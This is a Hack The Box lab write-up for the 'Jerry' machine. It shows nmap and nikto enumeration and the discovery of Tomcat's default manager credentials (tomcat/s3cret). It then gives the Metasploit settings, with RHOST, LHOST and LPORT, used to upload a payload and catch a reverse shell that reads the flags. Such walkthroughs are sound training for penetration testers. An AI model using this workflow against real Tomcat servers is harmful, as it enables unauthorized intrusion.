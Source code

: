 ## **Hack The Box - Jerry**

**Creator:** [mrh4sh](https://app.hackthebox.com/users/2570) 

**Difficulty:** Easy

**Link:** [Jerry](https://app.hackthebox.com/machines/144)

---


<ins> **Introduction** </ins>

![Jerry](/docs/assets/images/HTB/jerry/Jerry.png)

Jerry is fourth challenge and second vulnerable box in the Beginner Track on Hack The Box. The challenge involves using metasploit to execute an exploit that takes advantage of the fact that the Windows installer for *Apache Tomcat* used default login credentials in earlier versions.

[CVE-2009-3548](https://nvd.nist.gov/vuln/detail/CVE-2009-3548)

[Exploit-DB-31433](https://www.exploit-db.com/exploits/31433)

---


<ins> **Enumeration** </ins>


My first step with any vulnerable machine is to enumerate for service versions using nmap. 

`Nmap –sV –sC –O <target_IP> >> nmap.txt && cat nmap.txt `

This command tells *nmap* to scan the target IP for service versions and to test any default scripts it may be vulnerable to, along with attempting to identify the OS. It then outputs the results into a file called *nmap.txt* and then displays the contents of the file on screen using *cat*.

![nmap](/docs/assets/images/HTB/jerry/jerry01.png)

> PORT     STATE SERVICE VERSION 
>
> 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1 
>
> |_http-favicon: Apache Tomcat 
>
> |_http-title: Apache Tomcat/7.0.88 
>
> |_http-server-header: Apache-Coyote/1.1 
> 
> |_http-open-proxy: Proxy might be redirecting requests 
>
> Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port 
>
> Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)

The machine is hosting an *Apache Tomcat/Coyote JSP engine 1.1 webserver* on *port 8080*. The OS scan couldn't say for sure but the machine is likely running on Windows.

---


<ins> **What Didn't Work** </ins>

I had a good lesson here in not limitting myself to the first results of my enumeration, or at the very least my first takeaway from the results.

I used *searchsploit* to look for the version of *apache tomcat* I thought the machine was using based on the *nmap* scan results. This yielded 2 results, one of which was a python script. Since I know a little bit of python I decided to start here.

![searchsploit](/docs/assets/images/HTB/jerry/jerry02.png)

Using `locate` to search for the file path listed on *searchsploit* I was able to easily find this script already stored on my system..

![locate](/docs/assets/images/HTB/jerry/jerry03.png)

Most python scripts utilize the `-h` or `--help` switch to display a menu that usually provides syntax for it's usage. 

![Script help](/docs/assets/images/HTB/jerry/jerry04.png)

The script is fairly simple to use it just requires the `-u` switch and *target IP*. Unfortunately this Webserver isn't actually vulnerable to this exploit.

![Script nope](/docs/assets/images/HTB/jerry/jerry05.png)

My guess is the machine isn't actually running on version 7.0.88 of *apache tomcat*.

---


<ins> **More Enumeration** </ins>

If at first you don't succeed enumerate some more.

One tool I like to use when enumerating a webserver is *nikto*

Taken from it's [repository](https://github.com/sullo/nikto/wiki/Overview-&-Description)

> Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated. 

*nikto* comes preinstalled on kali but a direct link to the [repository](https://github.com/sullo/nikto) is always handy.

The usage is pretty simple `nikto -h <target_ip>` does the trick. The -h switch tells nikto that the next line in the arguement will be the ip address to scan.

![nikto](/docs/assets/images/HTB/jerry/jerry06.png)

> + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS  
>
> + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server. 
>
> + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
>
> Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat. 
>
> + /host-manager/html: Default Tomcat Manager / Host Manager interface found 
>
> + /manager/html: Tomcat Manager / Host Manager interface found (pass protected) 
>
> + /manager/status: Tomcat Server Status interface found (pass protected) 

Some key takeaways from this scan. 

The webserver accepts all basic forms of http requests and clients are likely able to save and remove files from the webserver. In addition to that it runs something called *Tomcat Manger Application* with default credentials listed as *user ID: tomcat* and *password: s3cret* 

earlier I told *searchsploit* to list vulnerablities related to *apache tomcat 7.0.88* which would have missed any results related to *tomcat manager* which there were.

![searchsploit2](/docs/assets/images/HTB/jerry/jerry07.png)

There are 3 exploits related to tomcat manager, one of which is related to uploading which thanks to *nikto* I know I'm able to do.

---


<ins> *Metasploit* </ins> 

In the `msfconsole` I enter `search tomcat manager` to up a list of exploits related to it, there are several but the one I found on *searchsploit* that i'm looking for match *2* on my console so I enter `use 2`

![msfconsole](/docs/assets/images/HTB/jerry/jerry08.png)

Once the module loads up I enter `show options` to see what configurations the exploit needs to run and then set the appropriate ones.

![msfconsole options](/docs/assets/images/HTB/jerry/jerry09.png)

```
set HttpPassword s3cret

set HttpUsername tomcat

set RHOST 10.10.10.95

set RPORT 8080

set LHOST 10.10.14.2

set LPORT 4444
```

After changing configurations I always `show options` again just to verify everything is how I want it.

![options2](/docs/assets/images/HTB/jerry/jerry10.png)

I then set up a listner to catch the shell the payload generated but that wasn't necessary and actually caused an error the first time I ran the exploit.

![exploit](/docs/assets/images/HTB/jerry/jerry11.png)

Enter *shell* in the *meterpreter* grants access to the *command line* From there it was as simple as using various windows commands to navigate through the file system and find the flags. Even though *nmap* told me it was a Windows server earlier I still caught myself using Linux commands several times out of habbit.

![navigate1](/docs/assets/images/HTB/jerry/jerry12.png)

![navigate2](/docs/assets/images/HTB/jerry/jerry13.png)

![navigate3](/docs/assets/images/HTB/jerry/jerry14.png)

The flags are found on the *adminstrator* users *desktop* in a directory called *flags* that contains a single file *"2 for the price of 1.txt"*. Since this is a windows machine the *type* command is what is used to read the file.

![flags](/docs/assets/images/HTB/jerry/jerry15.png)

All that's left to do is submit them on Hack The Box.

![pwned](/docs/assets/images/HTB/jerry/jerry16.png)

---


<ins> **Final Thoughts** </ins>

Another machine in the beginner track defeated with *metasploit*. I was hoping that the *python* script for the first exploit would work out so I didn't have to use *metasploit* again but here we are.  There is probably more than one way to break into this machine as *tomcat manager* had a *XSS* exploit associated with it as well as several other exploits on *metasploit* so perhaps it will be worth revisiting someday. 




